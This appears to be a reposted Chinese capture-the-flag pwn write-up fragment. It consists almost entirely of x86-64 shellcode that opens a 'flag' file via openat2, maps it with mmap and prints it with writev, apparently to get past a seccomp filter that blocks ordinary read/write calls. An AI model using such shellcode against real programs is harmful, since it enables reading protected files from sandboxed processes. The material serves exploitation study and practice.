 

##### 用mmap，writev替代的

```python
shellcode = '''
mov r12, 0x0067616c66
mov [rsp], r12

xor rax, rax
push rax
push rax
push rax
push rax

mov rdi, -100       
lea rsi, [rsp+0x20]  
mov rdx, rsp         
mov r10, 0x18        
mov rax, 437        
syscall
mov rdi, 0x777721000
mov rsi, 0x100
mov rdx, 1
mov r10, 2
mov r8, 3
mov r9, 0
mov rax, 9
syscall
mov rbx, 0x777721000     
mov rcx, 0x100         
sub rsp, 0x20
mov [rsp], rbx
mov [rsp + 8], rcx
mov rdi, 1              
mov rsi, rsp           
mov rdx, 1               
mov rax, 0x14            
syscall
'''
```

一直在学习大佬的路上
转载作者原文 https://www.cnblogs.com/xmiscx/p/18827064
